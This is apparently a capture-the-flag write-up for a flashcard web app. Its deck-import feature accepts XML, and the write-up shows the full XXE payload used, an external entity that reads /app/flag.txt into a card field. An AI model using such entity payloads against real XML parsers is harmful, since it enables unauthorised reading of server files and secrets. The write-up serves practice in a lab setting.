

Daily challenge.
Hint: *XXE.*

After registering an account, there is a *import deck* feature that allows to send a custom flashcard decks from JSON or XML files.
The XXE payload I used:
```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE deck [

    <!ENTITY xxe SYSTEM "file:///app/flag.txt">

    ]>

<deck>

    <name>Find the missing flag </name>

    <description>My Flags</description>

    <category>Flags</category>

    <cards>

        <card>

            <front>What is the flag</front>

            <back>&xxe;</back>

        </card>

    </cards>

</deck>
```

After importing it, a new deck is created. After revealing an answer, there is a flag.


